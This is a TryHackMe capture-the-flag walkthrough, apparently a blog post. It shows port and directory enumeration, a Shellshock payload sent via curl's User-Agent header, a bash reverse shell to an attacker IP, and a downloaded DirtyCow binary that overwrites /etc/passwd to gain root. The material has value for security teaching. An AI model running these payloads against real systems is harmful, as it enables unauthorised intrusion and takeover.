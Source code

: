 ```yaml
---
categories: [TryHackMe]
tags: [PrivEsc, ShellShock, sudo exploit]  
image:
  path: /Vulnhub-Files/img/Turtle/front.png
  alt: Turtle TryHackMe Machine 💻 
---
```


## Port Scan Resutls ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ rustscan -t 5000 -a 10.10.106.27 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-''
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.106.27:22
Open 10.10.106.27:80
[~] Starting Script(s)
```
{: .nolineno}

## Web Enumeration ⤵️

While doing directory traversal I got some directories like this →

```bash
301      GET        9l       28w      313c http://10.10.106.27/cgi-bin => http://10.10.106.27/cgi-bin/
301      GET        9l       28w      309c http://10.10.106.27/img => http://10.10.106.27/img/
200      GET        7l       11w      156c http://10.10.106.27/js/main.js
200      GET       78l      138w     1114c http://10.10.106.27/css/main.css
301      GET        9l       28w      313c http://10.10.106.27/uploads => http://10.10.106.27/uploads/
200      GET      423l     2430w   194997c http://10.10.106.27/img/avatar.png
200      GET       42l      136w     3025c http://10.10.106.27/
301      GET        9l       28w      311c http://10.10.106.27/admin => http://10.10.106.27/admin/
301      GET        9l       28w      309c http://10.10.106.27/css => http://10.10.106.27/css/
301      GET        9l       28w      308c http://10.10.106.27/js => http://10.10.106.27/js/
301      GET        9l       28w      312c http://10.10.106.27/backup => http://10.10.106.27/backup/
200      GET        1l        7w       38c http://10.10.106.27/robots.txt
301      GET        9l       28w      312c http://10.10.106.27/secret => http://10.10.106.27/secret/
```
{: .nolineno}

Now I tried the shellshock vulnerability and I got a hit like this →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://10.10.106.27/cgi-bin/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{: .nolineno}

Now its time for the reverse shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /bin/bash -c 'bash -i >& /dev/tcp/10.8.83.156/4444 0>&1'" http://10.10.106.27/cgi-bin/test.cgi
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Turtle/Untitled.png)

## SSH SHELL ⤵️

Now I directly checked its kernel version and it is way old →

```bash
www-data@ubuntu:/$ uname -an
uname -an
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/$
```
{: .nolineno}

Now I will be using the dirtycow exploit over here for getting the root shell →

```bash
www-data@ubuntu:/tmp$ wget http://10.8.83.156/exploit_64
--2023-10-05 09:30:19--  http://10.8.83.156/exploit_64
Connecting to 10.8.83.156:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14368 (14K) [application/octet-stream]
Saving to: 'exploit_64'

 0% [                                       ] 0           --.-K100%[======================================>] 14,368      77.1KB/s   in 0.2s   

2023-10-05 09:30:19 (77.1 KB/s) - 'exploit_64' saved [14368/14368]

www-data@ubuntu:/tmp$ chmod +x *
www-data@ubuntu:/tmp$ ./exploit_64 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
evait:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: 7fecff9ea000

# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
cat /root/root.txt
THM{FLAG is}
```
{: .nolineno}

I am Root Now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }